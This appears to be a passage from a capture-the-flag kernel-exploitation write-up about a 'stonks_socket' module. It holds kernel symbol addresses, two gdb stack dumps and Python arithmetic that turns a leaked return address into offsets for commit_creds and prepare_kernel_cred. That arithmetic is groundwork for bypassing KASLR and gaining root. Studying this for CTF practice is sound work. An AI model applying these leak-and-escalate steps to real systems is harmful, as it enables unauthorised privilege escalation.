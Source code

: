 0xffffffffb37beec0 single_show

0xffffffff819a4740 t ____sys_sendmsg
0xffffffff819a8ab0 sock_kmalloc

0xffffffffc0003064 r .LC0 [stonks_socket]
0xffffffffc0002110 t stonks_rocket        [stonks_socket]
0xffffffffc0004040 d __this_module        [stonks_socket]
0xffffffffc00023a0 t cleanup_module       [stonks_socket]
0xffffffffc00023a0 t stinks_socket        [stonks_socket]
0xffffffffc0002000 t null_hash    [stonks_socket]
0xffffffffc0002180 t stonks_ioctl [stonks_socket]
0xffffffffc0002010 t secure_hash  [stonks_socket]

0xffffffff810ce760 T commit_creds
0xffffffff810cec60 T prepare_kernel_cred
0xffffffff81000000 T _text


0x0000000000402b72 in ?? ()
(gdb) x/60gx $rsp
0xffffc9000066fcc8:     0xffffc9000066fd80      0xffffffffc000234d
0xffffc9000066fcd8:     0xffff888007818a40      0x0000000000000000
0xffffc9000066fce8:     0xffffc9000066fd10      0xffffffff81107bab
0xffffc9000066fcf8:     0xffff888000402b6a      0x0000000000402b6a
0xffffc9000066fd08:     0xddb9c75f62683e31      0x0000000000000004
0xffffc9000066fd18:     0x0000000000000008      0x00000000000000f8
0xffffc9000066fd28:     0xffffc9000066fe00      0x0000000000000001
0xffffc9000066fd38:     0xffffc90000000005      0x0000000000000000
0xffffc9000066fd48:     0x0000000000000008      0xffffc9000066fe00
0xffffc9000066fd58:     0x00000000000000f8      0x96e7094108234e00
0xffffc9000066fd68:     0xffffc9000066fe10      0xffffc9000066fe10
0xffffc9000066fd78:     0xffff8880046a4680      0xffffc9000066fdc0
0xffffc9000066fd88:     0xffffffff81ab003c      0xffffffff814b4a1d
0xffffc9000066fd98:     0xffff8880046a4680      0xffffc9000066fe10
0xffffc9000066fda8:     0x00000000046a4680      0x96e7094108234e00
0xffffc9000066fdb8:     0xffff8880046a4680      0xffffc9000066fde8
0xffffc9000066fdc8:     0xffffffff819a42a9      0x0000000000000000
0xffffc9000066fdd8:     0x0000000000000000      0x0000000000000000
0xffffc9000066fde8:     0xffffc9000066ff20      0xffffffff819a5b0e
0xffffc9000066fdf8:     0x00000001fffffff7      0x0000000000562500
0xffffc9000066fe08:     0x0000000000000100      0x0000000000000000
0xffffc9000066fe18:     0xffffffff00000000      0x0000000000000004
0xffffc9000066fe28:     0x0000000000000008      0x00000000000000f8
0xffffc9000066fe38:     0xffffc9000066fe00      0x0000000000000001
0xffffc9000066fe48:     0x0000000000000000      0x0000000000000001
0xffffc9000066fe58:     0x0000000000000000      0xffffffff00000000
0xffffc9000066fe68:     0x0000000000000000      0x0000000000000000
0xffffc9000066fe78:     0x0000000000000000      0x0000000272666aaf
0xffffc9000066fe88:     0x000000027265a75f      0xffffffff8113fc90
0xffffc9000066fe98:     0xffff88800781f240      0x0000000000000000

(gdb) x/60gx $rsp
0xffffc9000066fcc8:     0xffffc9000066fd80      0xffffffffc000234d
0xffffc9000066fcd8:     0xffff888007818a40      0x0000000000000000
0xffffc9000066fce8:     0xffffc9000066fd10      0xffffffff81107bab
0xffffc9000066fcf8:     0xffff888000402b6a      0x0000000000402b6a
0xffffc9000066fd08:     0x3db0c75f62683e71      0x0000000000000004
0xffffc9000066fd18:     0x0000000000000008      0x00000000000000f8
0xffffc9000066fd28:     0xffffc9000066fe00      0x0000000000000001
0xffffc9000066fd38:     0xffffc90000000005      0x0000000000000000
0xffffc9000066fd48:     0x0000000000000008      0xffffc9000066fe00
0xffffc9000066fd58:     0x00000000000000f8      0x1c2069cd496be100
0xffffc9000066fd68:     0xffffc9000066fe10      0xffffc9000066fe10
0xffffc9000066fd78:     0xffff8880046a63c0      0xffffc9000066fdc0
0xffffc9000066fd88:     0xffffffff81ab003c      0xffffffff814b4a1d
0xffffc9000066fd98:     0xffff8880046a63c0      0xffffc9000066fe10
0xffffc9000066fda8:     0x00000000046a63c0      0x1c2069cd496be100
0xffffc9000066fdb8:     0xffff8880046a63c0      0xffffc9000066fde8
0xffffc9000066fdc8:     0xffffffff819a42a9      0x0000000000000000
0xffffc9000066fdd8:     0x0000000000000000      0x0000000000000000
0xffffc9000066fde8:     0xffffc9000066ff20      0xffffffff819a5b0e
0xffffc9000066fdf8:     0x00000001fffffff7      0x0000000000562500
0xffffc9000066fe08:     0x0000000000000100      0x0000000000000000
0xffffc9000066fe18:     0xffffffff00000000      0x0000000000000004
0xffffc9000066fe28:     0x0000000000000008      0x00000000000000f8
0xffffc9000066fe38:     0xffffc9000066fe00      0x0000000000000001
0xffffc9000066fe48:     0x0000000000000000      0x0000000000000001
0xffffc9000066fe58:     0x0000000000000000      0xffffffff00000000
0xffffc9000066fe68:     0x0000000000000000      0x0000000000000000
0xffffc9000066fe78:     0x0000000000000000      0x00000002cc382421
0xffffc9000066fe88:     0x00000002cc3760d1      0xffffffff8113fc90
0xffffc9000066fe98:     0xffff88800781f240      0x0000000000000000

>>> text = 0xffffffff81000000
>>> symbol = 0xffffffff81107bab
>>> hex(symbol - text)
'0x107bab'

>>> prepare_kernel_cred = 0xffffffff810cec60
>>> commit_creds = 0xffffffff810ce760
>>> hex(prepare_kernel_cred - text)
'0xcec60'
>>> hex(commit_creds - text)
'0xce760'

>>> hex(symbol - prepare_kernel_cred)
'0x38f4b'
>>> hex(symbol - commit_creds)
'0x3944b'

